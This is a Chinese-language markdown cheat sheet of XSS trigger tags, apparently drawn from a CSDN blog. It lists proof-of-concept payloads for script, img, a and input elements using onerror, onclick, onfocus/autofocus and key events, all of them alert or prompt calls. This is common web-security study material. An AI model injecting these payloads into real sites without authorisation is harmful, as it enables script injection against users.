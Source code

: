 # 总结

## 常见触发标签

> [XSS常见的触发标签_可以触发xss的标签_H3rmesk1t的博客-CSDN博客](https://blog.csdn.net/LYJ20010728/article/details/116462782)

### 无过滤

`<script>`

```php+HTML
<scirpt>alert("xss");</script>
```

`<img>`

```php+HTML
图片加载错误时触发
<img src="x" onerror=alert(1)>
<img src="1" onerror=eval("alert('xss')")>
鼠标指针移动到元素时触发
<img src=1 onmouseover="alert(1)">
鼠标指针移出时触发
<img src=1 onmouseout="alert(1)">
```

`<a>`

```php+HTML
<a href="https://www.qq.com">qq</a>
<a href=javascript:alert('xss')>test</a>
<a href="javascript:a" onmouseover="alert(/xss/)">aa</a>
<a href="" onclick=alert('xss')>a</a>
<a href="" onclick=eval(alert('xss'))>aa</a>
<a href=kycg.asp?ttt=1000 onmouseover=prompt('xss') y=2016>aa</a>
```

`<input>`

```php+HTML
<input onfocus="alert('xss');">
竞争焦点，从而触发onblur事件
<input onblur=alert("xss") autofocus><input autofocus>
通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发
<input onfocus="alert('xss');" autofocus>
<input name="name" value="">
<input value="" onclick=alert('xss') type="text">
<input name="name" value="" onmouseover=prompt('xss') bad="">
<input name="name" value=""><script>alert('xss')</script>
按下按键时触发
<input type="text" onkeydown="alert(1)">
按下按键时触发
<input type="text" onkeypress="alert(1)">
松开按键式时触发
<input type="text" onkeyup="alert(1)">
```
